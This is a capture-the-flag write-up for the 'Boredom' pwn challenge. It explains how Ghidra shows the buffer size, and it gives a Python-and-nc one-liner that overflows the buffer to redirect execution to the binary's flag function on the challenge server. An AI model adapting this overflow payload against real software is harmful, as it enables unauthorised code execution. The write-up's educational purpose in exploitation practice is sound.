 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

* check your offset, the offset is slightly different on the remote server
* the addresses are still the same

## Solution

Disassemble the bin file using Ghidra and check the buffer dimension: it is 208 locally (216 to cause a buffer overflow, + 8 byte func_address to call the function) and 200 on server (208 to cause a buffer overflow, + 8 byte func_address to call the function). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a buffer overflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.
